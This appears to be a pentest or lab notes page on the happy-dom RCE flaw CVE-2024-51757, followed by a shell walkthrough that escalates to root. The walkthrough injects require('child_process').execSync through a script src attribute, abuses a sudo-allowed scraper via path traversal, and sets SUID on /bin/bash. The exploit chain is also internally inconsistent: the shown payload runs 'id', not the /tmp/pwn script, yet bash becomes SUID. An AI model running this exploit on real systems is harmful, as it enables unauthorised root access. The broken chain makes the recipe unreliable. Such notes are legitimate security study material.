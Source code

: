 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# happy-dom

The `happy-dom` package is a lightweight, fast JavaScript implementation of the DOM (Document Object Model) and browser APIs designed for use in Node.js environments. It enables server-side manipulation and rendering of HTML content without requiring a full browser, making it popular for testing, scraping, and server-side rendering tasks.

## RCE

Versions of `happy-dom` prior to `15.10.2` are affected by a RCE vulnerability ([CVE-2024-51757](https://nvd.nist.gov/vuln/detail/CVE-2024-51757)) due to unsafe handling of JavaScript execution within the DOM environment. An attacker can inject arbitrary JavaScript code that the package executes without proper sandboxing or validation leading to RCE. A working [PoC](https://security.snyk.io/vuln/SNYK-JS-HAPPYDOM-8350065) is available.

An example of leveraging this vulnerability can be seen below.

{% code overflow="wrap" %}
```bash
$ sudo -l

User wp_hub may run the following commands on wallpaperhub:
    (root) NOPASSWD: /usr/bin/web-scraper /root/web_src_downloaded/*.html

$ file /usr/bin/web-scraper
/usr/bin/web-scraper: symbolic link to /opt/scraper/scraper.js

$ ls -l /opt/scraper/scraper.js
-rwxr-xr-x 1 root root 1659 Feb 11 10:11 /opt/scraper/scraper.js

$ cat /opt/scraper/scraper.js
#!/usr/bin/env node

const fs = require('fs');
const { Window } = require("happy-dom");
<SNIP>


# Create a payload script that sets the SUID bit on /bin/bash.
$ cat /tmp/pwn
chmod +u+s /bin/bash
```
{% endcode %}

Next, a malicious HTML file needs to be created that exploits `happy-dom`’s HTML parsing vulnerability. The `<script>` tag has a `src` attribute with an injected Node.js require() call to execute our payload.

{% hint style="warning" %}
The IP in the `src` attribute is irrelevant to the actual code execution — it’s just part of the injection chain.
{% endhint %}

{% code overflow="wrap" %}
```bash
$ cat /tmp/pwn.html
`<script src="https://192.168.45.170:80/'+require('child_process').execSync('id')+'"></script>`

# Execute the vulnerable web-scraper command as root, passing the malicious HTML file via path traversal.
$ sudo /usr/bin/web-scraper /root/web_src_downloaded/../../tmp/pwn.html
<SNIP>
Node.js v18.19.1
----------------------------
CSS Links:
----------------------------
JavaScript Links:
https://192.168.45.170:80/'+require('child_process').execSync('id')+'
----------------------------
Meta Tags:
----------------------------

$ ls -l /bin/bash
-rwsr-sr-x 1 root root 1446024 Mar 31  2024 /bin/bash

$ /bin/bash -p
```
{% endcode %}
